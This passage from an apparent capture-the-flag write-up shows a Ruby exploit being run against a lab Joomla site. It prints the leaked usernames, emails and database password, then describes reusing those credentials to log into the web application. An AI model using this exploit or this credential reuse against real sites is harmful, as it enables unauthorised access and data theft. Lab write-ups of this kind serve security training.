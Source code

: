 After getting the exploit code cd into it and install its dependencies with

```
sudo gem install httpx docopt paint
```

After installing the dependancies its possible to run the exploit to leak some sensitive data of the website  using joomla

```
ruby exploit.rb http://dev.devvortex.htb                      
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

When trying to use this password for SSH it didn't work so i tried to use these credentials on the web application. which did work.

![Joomla](/assets/img/Devvortex/Devvortex_04.png)
